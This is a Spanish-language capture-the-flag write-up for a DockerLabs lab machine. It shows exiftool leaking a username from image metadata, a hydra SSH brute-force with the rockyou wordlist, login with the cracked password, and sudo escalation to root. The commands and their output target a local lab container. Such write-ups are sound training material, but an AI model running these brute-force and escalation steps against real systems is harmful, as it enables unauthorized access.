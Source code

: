 ```yaml
---
title: BorazuwarahCTF
date: 2025-09-17 11:00:00 +0200
categories: [writeup, dockerlabs]
tags: [dockerlabs, hydra, ssh, fuerza bruta]     
image:
    path: https://dockerlabs.es/static/images/logos/logo.png
    alt: Docker Labs
---
```


# BorazuwarahCTF

>BorazuwarahCTF
Autor: BorazuwarahCTF
Dificultad: Muy Fácil
Fecha de creación: 28/05/2024
{: .prompt-tip }



## ⚠️ Vulnerabilidad
Information Disclosure

## 🔭 Reconocimiento:
 Se encuentran metadatos en la imagen del "huevo de chocolate de la marca Kinder" http://10.88.0.2/imagen.jpeg

``` shell
└─$ exiftool imagen.jpeg
ExifTool Version Number         : 13.25
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2025:09:17 22:23:13+02:00
File Access Date/Time           : 2025:09:17 22:23:13+02:00
File Inode Change Date/Time     : 2025:09:17 22:23:13+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

## 🚚 Distribución:
GET http

## 🪲 Explotación:
Alguien ha dejado información sobre un usuario de sistema, información que cualquier adversario podría aprovechar

## ⚠️ Vulnerabilidad
Brute Force

## 🔭 Reconocimiento:

``` shell
└─$ hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://10.88.0.2 -t64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-17 22:29:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://10.88.0.2:22/
[22][ssh] host: 10.88.0.2   login: borazuwarah   password: 123456
```

## 🚚 Distribución:
Fuerza bruta contra el protocolo SSH con herramientas como hydra

## 🪲 Explotación:
Fuerza bruta contra el protocolo SSH permite adquirir credenciales debiles de usuarios.

## ⚠️ Vulnerabilidad
Default or Weak Passwords

## 🔭 Reconocimiento:

``` shell
└─$ ssh borazuwarah@10.88.0.2
borazuwarah@10.88.0.2's password:
Linux 311f0704bcea 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
borazuwarah@311f0704bcea:~$ sudo -l
Matching Defaults entries for borazuwarah on 311f0704bcea:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User borazuwarah may run the following commands on 311f0704bcea:
(ALL : ALL) ALL
(ALL) NOPASSWD: /bin/bash
```

## 🚚 Distribución: SSH

## 🪲 Explotación:
El usuario no ha sido requerido a seguir una política de contraseñas fuertes, por otro lado si se le ha dado privilegios de superusuario.

## 👽 Acciones: Se convierte en usuario root tomando control total

``` shell
borazuwarah@311f0704bcea:~$ sudo su
[sudo] password for borazuwarah:
root@311f0704bcea:/home/borazuwarah# whoami
root
```

Este write up ha sido realizado en gran medida con la herramienta [DarkReport](../darkreport)